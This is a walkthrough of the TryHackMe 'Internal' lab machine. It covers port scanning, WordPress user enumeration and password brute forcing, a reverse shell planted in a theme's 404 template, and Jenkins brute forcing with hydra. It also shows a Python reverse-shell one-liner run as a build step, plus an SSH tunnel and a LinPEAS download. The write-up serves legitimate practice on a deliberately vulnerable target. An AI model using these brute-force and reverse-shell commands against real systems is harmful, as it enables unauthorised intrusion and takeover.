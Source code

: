 ```yaml
---
slug: internal-walkthrough
title: TryHackMe - Internal - Walkthrough
authors: bw
tags: [learning, internal, tryhackme, walkthrough]
---
```


This is a walkthrough of the [TryHackMe][thm] room: [Internal][internal]. Let’s get started!

This room is designed to be as close to a “real-world” pentest as possible. It comes with a Scope of Work (SOW) so make sure to read through that, and understand it. Then let’s start with enumeration.

# User Flag
Let’s start by scanning the server using rustscan. This is a much faster scanner than `nmap`, and I like using it because it scans all 65535 ports and then passes the open ones to `nmap`. You can find more about it [here][rustscan].

rustscan command: `rustscan -a <machine_ip> -- -A -A`

![i1](/img/thm/internal/i1.webp)

Looks like we have 22 and 80 open. Let’s visit the website!

![i2](/img/thm/internal/i2.webp)

Looks like we have a default page. We can run `dirsearch` to enumerate directories.

`dirsearch -u http://<machine_ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e html,php -t 100`

Right away we find a few options. Let’s check them out.
**NOTE:** Make sure to add the `<machine_ip> internal.thm` to your `/etc/hosts` file or some of the sites may not work.

We find a `/wordpress` directory. When we navigate there, we find a link for a login page.

![i3](/img/thm/internal/i3.webp)

At `/blog` we find the blog page of the wordpress site. There also is a `/phpmyadmin` page. Wow! Lot’s to work with here. I am going to leave `dirsearch` running in the background and start with WordPress. Let’s scan it! I am going to use `wpscan` for this. This can be found [here][wpscan].

`wpscan --url http://internal.thm/wordpress -e u`

![i4](/img/thm/internal/i4.png)

If you take a look at the enumerated users, we see an `admin` user. Let’s see if we can brute force the login!

`wpscan --url http://internal.thm/wordpress -U admin -P rockyou.txt`

![i6](/img/thm/internal/i6.png)

Let’s login!

Once we login, we know we can always do a reverse shell! Let’s get the reverse-shell from [here][rev-sheet]. Change the IP and Port.

Now navigate to the **Theme Editor**. Select **404 Template** from the **Theme Files**

Paste in your reverse-shell code. Start a netcat listener. `nc -nvlp 1234`

Navigate to:

`http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php`

Let’s just start by looking around. I stumble upon the `/opt` folder and there is an interesting file: `wp-save.txt` We find some credentials in here!

![i8](/img/thm/internal/i8.png)

Let’s try to ssh into the machine with those credentials!

We are in! Let’s see if there is a `user.txt` flag!

![i9](/img/thm/internal/i9.png)

# Root Flag
Now we need to do some privilege escalation. Let’s use [LinPEAS][linpeas] for this! Get it onto the system by starting a python http server:

`python3 -m http.server 80`

And then download onto the server with `wget`

`wget http://<thm_ip>/lin.sh`

Make sure to `chmod +x lin.sh` and then run it: `./lin.sh`

That didn’t come back with a ton of useful info, but there was a lot there. I did see a `jenkins.txt` in the `/home/aubreanna` directory earlier.

![i10](/img/thm/internal/i10.png)

We may be able to access this with `ssh` tunneling! On our machine:

`ssh -L 1235:172.17.0.2:8080 aubreanna@<machine_ip>`

In your browser, navigate to: `localhost:1235`

We have a login page!

![i11](/img/thm/internal/i11.png)

Let’s checkout a POST request to the server. We can try to brute force the login with `hydra`

![i12](/img/thm/internal/i12.png)

Use this info to create our `hydra` command:

```bash
hydra -l admin -P rockyou.txt 127.0.0.1 -s 1235 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```

We found credentials!

![i13](/img/thm/internal/i13.png)

Login with those credentials. Let’s create a New Project. Name it whatever you want, and navigate to the **Build** tab and select: **Execute shell**. Now let’s have Jenkins execute a reverse shell back to our machine (If one doesn’t work, there are many others you can try: [Link][rev-sheet]):

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<machine_ip",2345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Save** this build. Now start a netcat listener on your machine: `nc -lvnp 2345`

Select **Build Now** in **Jenkins**.

Success! Now let’s look around! Eventually, we find a `note.txt` in `/opt`

![i14](/img/thm/internal/i14.webp)

Let’s `ssh` into the machine with the `root` credentials!

Now let’s print the `root.txt` flag!

![i15](/img/thm/internal/i15.png)

# Review
Wow. That is all I can say. This was definitely a tough one for me and took a ton of patience and looking around. Not only with the various points of entry that can eat up a lot of time, but also having to research some new ways to exploit the machine! Great job to the creator: TheMayor!

# References
[TryHackMe][thm] | [Internal Room][internal] | [Rustscan][rustscan] | [WPScan][wpscan] | [LinPEAS][linpeas] | [Reverse Shell Cheat Sheet][rev-sheet]

[thm]: https://tryhackme.com
[internal]: https://tryhackme.com/r/room/internal
[rustscan]: https://github.com/RustScan/RustScan
[wpscan]: https://github.com/wpscanteam/wpscan
[linpeas]: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
[rev-sheet]: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet